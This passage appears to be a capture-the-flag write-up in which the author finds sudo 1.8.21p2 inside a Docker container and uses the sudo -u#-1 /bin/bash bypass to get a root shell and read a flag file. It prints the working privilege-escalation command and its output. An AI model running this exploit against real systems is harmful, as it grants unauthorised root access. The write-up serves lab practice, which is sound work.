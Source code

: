 ```
-rw-r--r-- 1 robert robert  807 Apr  4  2018 .profile
-rw-r--r-- 1 robert robert   78 Jan 12  2021 robert.txt
robert@ec96850005d6:~$ cat robert.txt
You shall not pass from here!!!

I will not allow ICA to take over my world.
```

**ICA** stands for Illumina Conneted Analytics. good explanation [here](https://help.ica.illumina.com/home/h-dockerrepository). The most important is to understand we are in presence of **Docker**
```
robert@ec96850005d6:~$ cat robert.txt
You shall not pass from here!!!

I will not allow ICA to take over my world.

robert@ec96850005d6:~$ ls -lh /.dockerenv
-rwxr-xr-x 1 root root 0 Jan 12  2021 /.dockerenv
robert@ec96850005d6:~$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

For this version : **1.8.21p2** , We have a vulnerability described [here](https://www.exploit-db.com/exploits/47502) 
```
robert@ec96850005d6:~$ cd /root/
-bash: cd: /root/: Permission denied
robert@ec96850005d6:~$ cd /root
-bash: cd: /root: Permission denied
robert@ec96850005d6:~$ sudo -u# -1/bin/bash
sudo: invalid option -- '1'
usage: sudo -h | -K | -k | -V
usage: sudo -v [-AknS] [-g group] [-h host] [-p prompt] [-u user]
usage: sudo -l [-AknS] [-g group] [-h host] [-p prompt] [-U user] [-u user] [command]
usage: sudo [-AbEHknPS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] [VAR=value] [-i|-s] [<command>]
usage: sudo -e [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] file ...
robert@ec96850005d6:~$ sudo -u#-1 /bin/bash
root@ec96850005d6:~# whoami
root
root@ec96850005d6:~# ls -l
total 4
-rw-r--r-- 1 robert robert 78 Jan 12  2021 robert.txt
root@ec96850005d6:~# cd /root
root@ec96850005d6:/root# ls -l
total 8
-rw-r--r-- 1 root root 204 Jan 12  2021 success.txt
-r-------- 1 root root  39 Jan 12  2021 user.txt
root@ec96850005d6:/root# cat user.txt
user{620fb94d32470e1e9dcf8926481efc96}
```
